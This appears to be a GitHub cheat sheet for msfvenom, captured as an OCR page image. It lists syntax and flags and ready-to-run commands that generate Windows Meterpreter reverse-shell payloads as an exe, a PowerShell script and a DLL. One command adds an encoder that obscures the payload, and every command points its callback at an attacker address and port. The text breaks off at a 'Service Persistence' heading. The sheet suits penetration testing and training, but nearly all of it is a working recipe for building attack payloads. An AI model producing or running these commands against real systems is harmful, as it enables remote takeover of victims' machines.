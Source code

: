 
---

## **1. Basic Syntax & Common Flags**  
```bash
msfvenom -p <payload> LHOST=<attacker_IP> LPORT=<port> [options] -f <format> -o <output_file>
```

| **Flag**       | **Description**                                                                 |
|----------------|-------------------------------------------------------------------------------|
| `-p`           | Specify payload (e.g., `windows/meterpreter/reverse_tcp`).                    |
| `LHOST`        | Attacker’s IP (for reverse shells).                                           |
| `LPORT`        | Listening port.                                                               |
| `-f`           | Output format (`exe`, `elf`, `raw`, `python`, etc.).                          |
| `-o`           | Output file (e.g., `payload.exe`).                                            |
| `-e`           | Encoder (e.g., `x86/shikata_ga_nai`).                                         |
| `-i`           | Iterations for encoding (default: 1).                                         |
| `-a`           | Architecture (`x86`, `x64`, etc.).                                            |
| `--platform`   | Target OS (`windows`, `linux`, etc.).                                         |

---

### **Notes**:  
- **Encoder Example**:  
  ```bash
  msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=443 -e x86/shikata_ga_nai -i 3 -f exe > payload.exe
  ```
- Use `msfvenom --list formats` to see all supported output formats.  


---

## **2. Payload Types**
### **(A) Staged vs. Stageless**
| **Type**       | **Example Payload**                     | **Description** |
|---------------|----------------------------------------|----------------|
| **Staged**    | `windows/meterpreter/reverse_tcp`      | Smaller initial payload; requires handler (`exploit/multi/handler`) |
| **Stageless** | `windows/meterpreter_reverse_tcp`      | Self-contained; no need for secondary connection |

### **(B) Common Payloads by Platform**


#### **Windows**  
```bash
# Reverse TCP Shell (Stageless)  
msfvenom -p windows/meterpreter_reverse_tcp LHOST=192.168.1.2 LPORT=4444 -f exe > shell_stageless.exe  

# PowerShell Payload (Base64-encoded)  
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.2 LPORT=443 -f psh -o shell.ps1  

# DLL Injection  
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=4444 -f dll > payload.dll  

# Service Persistence  
```
